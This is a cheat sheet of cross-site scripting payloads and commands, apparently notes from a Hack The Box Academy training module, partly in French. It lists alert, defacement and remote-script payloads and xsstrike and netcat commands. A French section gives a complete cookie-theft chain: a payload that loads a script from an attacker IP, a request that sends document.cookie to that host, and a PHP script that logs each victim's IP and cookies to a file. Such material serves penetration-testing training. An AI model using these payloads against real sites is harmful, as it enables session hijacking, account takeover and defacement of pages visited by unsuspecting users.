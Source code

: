 #XSS #web 

## Commands

| Code                                                                                          | Description                       |
| --------------------------------------------------------------------------------------------- | --------------------------------- |
| **XSS Payloads**                                                                              |                                   |
| `"><script>alert(window.origin)</script>`                                                     |    Basic XSS Payload                               |
| `'><script>alert(window.origin)</script>`                                                     |        Basic XSS Payload                           |
| `<script>alert(window.origin)</script>`                                                       | Basic XSS Payload                 |
| `<plaintext>`                                                                                 | Basic XSS Payload                 |
| `<script>print()</script>`                                                                    | Basic XSS Payload                 |
| `<img src="" onerror=alert(window.origin)>`                                                   | HTML-based XSS Payload            |
| `<script>document.body.style.background = "#141d2b"</script>`                                 | Change Background Color           |
| `<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>` | Change Background Image           |
| `<script>document.title = 'HackTheBox Academy'</script>`                                      | Change Website Title              |
| `<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>`                | Overwrite website's main body     |
| `<script>document.getElementById('urlform').remove();</script>`                               | Remove certain HTML element       |
| `<script src="http://OUR_IP/script.js"></script>`                                             | Load remote script                |
| `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>`               | Send Cookie details to us         |
| **Commands**                                                                                  |                                   |
| `python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"`                           | Run `xsstrike` on a url parameter |
| `sudo nc -lvnp 80`                                                                            | Start `netcat` listener           |
| `sudo php -S 0.0.0.0:80 `                                                                     | Start `PHP` server                |


### Utilisation d'un payload XSS avec un script PHP pour récuperer les cookies d'une session

Utilisation d'un **payload XSS** appelant un fichier **js** avec lui même une requête sur les cookies de la sessions et appel d'un fichier **php** pour récuperer au clair les informations dans un txt.

#### Payload avec connexion à notre propre serveur php
```bash
"><script src=http://10.10.16.9/script.js></script>
```

#### deuxième payload ( requête pour récupération des cookies )
```javascript

?>new Image().src='http://10.10.16.9/index.php?c='+document.cookie

```

#### PHP script
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
```

#### Utilisation des entrées directe :
- Code Javascript<script></script>
- Code de style CSS<style></style>
- Champs de balise/attribut<div name='INPUT'></div>
- Commentaires HTML<!-- --> 